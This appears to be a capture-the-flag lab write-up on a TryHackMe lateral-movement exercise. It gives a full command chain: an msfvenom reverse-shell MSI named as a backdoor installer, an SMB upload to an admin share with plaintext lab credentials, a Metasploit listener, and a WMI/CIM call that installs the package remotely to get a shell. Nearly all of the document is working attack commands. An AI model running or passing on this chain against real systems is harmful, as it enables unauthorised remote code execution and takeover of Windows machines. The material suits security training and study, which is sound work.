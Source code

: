 ```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\bdoor-installer.msi"; Options = ""; AllUsers = $false}
```

### Practical
---

We need to follow these steps:

1. Creating payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > bdoor-installer.msi
```

2. Uploading file using `smbclient`:

```
smbclient -c 'put bdoor-installer.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

3. Starting our listener using `msfconsole`:

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST lateralmovement; set LPORT 4445;exploit"
```

4. Starting the `WMI` session using `powershell`:

```powershell
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

5. Using `Invoke-CimMethod` to install the method from the `win32_product` class:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\bdoor-installer.msi"; Options = ""; AllUsers = $false}
```

If we follow these steps and check our `msfconsole` listener, we notice this:

![Pasted image 20250516134323.png](../../../IMAGES/Pasted%20image%2020250516134323.png)
